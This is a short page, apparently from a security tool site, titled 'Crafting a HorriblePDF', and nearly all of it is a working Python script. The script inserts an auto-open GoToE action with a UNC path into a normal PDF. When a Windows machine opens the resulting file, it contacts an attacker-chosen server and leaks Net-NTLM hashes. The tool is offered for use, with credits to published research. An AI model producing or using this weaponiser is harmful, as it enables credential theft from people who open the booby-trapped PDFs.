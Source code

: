 ```yaml
---
layout: attack
title: Crafting a HorriblePDF
---
```

<img height="120" align="left" src="/images/horriblepdf.png>
Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
    
```python
import sys

banner = """
  ___ ___                     ._____.   .__        __________________  ___________
 /   |   \  __________________|__\_ |__ |  |   ____\______   \______ \ \_   _____/
/    ~    \/  _ \_  __ \_  __ \  || __ \|  | _/ __ \|     ___/|    |  \ |    __)  
\    Y    (  <_> )  | \/|  | \/  || \_\ \  |_\  ___/|    |    |    `   \|     \   
 \___|_  / \____/|__|   |__|  |__||___  /____/\___  >____|   /_______  /\___  /   
       \/                             \/          \/                 \/     \/    

Transform a normal PDF file into malicious and steal Net-NTLM Hashes from crappy windows machines.
This vulnerability should be fixed but it's still nice to remember it.

References and kudos to:
    - https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/
    - https://github.com/deepzec/Bad-Pdf
    
"""

def add_payload(data,ip):
    payload = '/AA <</O <</F (\\\\\\\\' + ip + '\\\\test)/D [ 0 /Fit]/S /GoToE>>>>'
    index1 = data.find('/Parent') + 13    
    return data[0:index1] + payload + data[index1:]   


if __name__ == "__main__":
    print(banner)

    if len(sys.argv)!=3:
        print('\nUsage:')
        print('    HorriblePDF.py <normal PDF file Path> <ServerIP>')   
        sys.exit(0)    

    print(f"[*] Normal PDF: {sys.argv[1]}")
    print(f"[*] Server IP: {sys.argv[2]}")
    
    with open(sys.argv[1],'rb') as file_object:
        all_the_text = file_object.read( )

    new_data = add_payload(all_the_text,sys.argv[2])
    new_malicious_path = sys.argv[1] + '.malicious.pdf'
    
    print(f"[+] HorriblePDF: {new_malicious_path}")  
    with open(new_malicious_path, 'wb') as horrible_pdf:
        horrible_pdf.write(new_data)
    print("[*] All Done")

```
